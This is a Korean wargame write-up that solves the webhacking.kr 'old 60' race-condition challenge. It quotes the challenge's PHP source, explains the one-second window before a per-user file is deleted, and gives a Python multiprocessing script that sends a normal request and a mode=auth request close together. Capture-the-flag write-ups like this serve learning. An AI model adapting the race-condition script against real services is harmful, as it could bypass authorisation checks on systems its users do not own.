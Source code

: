 ```yaml
---
title: "[webhacking.kr] 60번 문제 풀이[Race Condition]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - race-condition
  - python
toc: true
toc_sticky: true
toc_label: "60번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 60번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
![image](https://user-images.githubusercontent.com/33647663/154058188-2f960c04-e238-46d9-8efd-2f1a30bd92b2.png){: .align-center}

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  login_chk();

  # 쿠키에 PHPSESSID가 숫자 인지 확인
  echo "Your idx is {$_SESSION['idx']}<hr>";
  if(!is_numeric($_COOKIE['PHPSESSID'])) exit("Access Denied<br><a href=./?view_source=1>view-source</a>");
  sleep(1);
  
  # mode = auth인 경우 
  if($_GET['mode']=="auth"){
    echo("Auth~<br>");
    $result = file_get_contents("./readme/{$_SESSION['idx']}.txt");
    if(preg_match("/{$_SESSION['idx']}/",$result)){
      echo("Done!");
      unlink("./readme/{$_SESSION['idx']}.txt");
      solve(60);
      exit();
    }
  }

  # 그냥 접속했을 경우
  $p = fopen("./readme/{$_SESSION['idx']}.txt","w");
  fwrite($p,$_SESSION['idx']);
  fclose($p);
  if($_SERVER['REMOTE_ADDR']!="127.0.0.1"){
    sleep(1);
    unlink("./readme/{$_SESSION['idx']}.txt");
  }
?>
```

<br>

# 문제 풀이
위의 php 소스코드를 해석하면 다음과 같습니다.

1. 그냥 접속했을 경우
```php
 $p = fopen("./readme/{$_SESSION['idx']}.txt","w");
  fwrite($p,$_SESSION['idx']);
  fclose($p);
  if($_SERVER['REMOTE_ADDR']!="127.0.0.1"){
    sleep(1);
    unlink("./readme/{$_SESSION['idx']}.txt");
  }
```
저의 인덱스 값은 **54522** 입니다. 
처음 접속하면 **./readme/54522.txt** 파일을 생성하고, 해당 파일의 저의 인덱스인 **54522**를 적습니다. 그리고 REMOTE_ADDR 은 저의 IP라서 127.0.0.1이 아니므로 unlink 함수로 **1초뒤에** 해당 파일을 지웁니다.


2. mode=auth 로 접속한 경우
```php
  if($_GET['mode']=="auth"){
    echo("Auth~<br>");
    $result = file_get_contents("./readme/{$_SESSION['idx']}.txt");
    if(preg_match("/{$_SESSION['idx']}/",$result)){
      echo("Done!");
      unlink("./readme/{$_SESSION['idx']}.txt");
      solve(60);
      exit();
    }
  }
```

**./read/54522.txt** 파일에서 저의 인덱스 값인 54522를 비교하여 똑같으면 문제가 클리어 됩니다.

즉, 정리하면 mode를 입력하지 않고 접속한 뒤에, 1초 이내로 mode=auth를 주면서 재접속 하면 풀립니다.

문제를 풀때 동일 브라우저에서 창을 2개 키면, 2개를 동시에 접속해도 문제가 풀리지 않습니다. 따라서 이번 문제를 풀 때는 하나의 브라우저는 원래 쓰던 브라우저를 쓰고, 다른 브라우저를 통해서 1초안에 접속하면 문제가 풀립니다.

저는 파이썬을 이용해서 이를 풀었습니다.

파이썬의 multiprocessing 라이브러리를 사용하여 프로세스를 2개 생성한다음 하나는 그냥접속, 다른 하나는 mode=auth를 주면서 접속을 하였습니다.

```python
import requests
from multiprocessing import Pool
import random
import time

random.seed(time.time())

# 쿠키의 PHPSESSID를 정수값이 들어가도록 해준다.
def login(session):
    session.get("https://webhacking.kr")
    rand = str(random.randint(1,10000000))
    session.cookies.clear()
    session.cookies.update({'PHPSESSID':rand})
    datas = {}
    print(" ------------ login ----------------------")
    datas['id'] = 'oksusu98'
    datas['pw'] = '비밀번호'
    response = session.post("https://webhacking.kr/login.php?login",data=datas)
    if( "<script>location.href='/';</script>" in response.text):
        print("login success : ",datas['id'])
    else:
        print("login Fail")
        exit(0)


def solve(param):
    url = 'https://webhacking.kr/challenge/web-37/'
    session = requests.session()
    login(session)
#    print(session.cookies)
    response = session.get(url,params={'mode':param})
    return response.text
    


if __name__ == '__main__':
    p = Pool(4)
    ret1 = p.apply_async(solve,('make',))
    time.sleep(0.3)
    ret2 = p.apply_async(solve,('auth',))

    print(ret1.get())
    print(ret2.get())

    p.close()
    p.join()

```

![image](https://user-images.githubusercontent.com/33647663/154062824-15d3b628-501f-41fb-9f80-793a49364adf.png){: .align-center}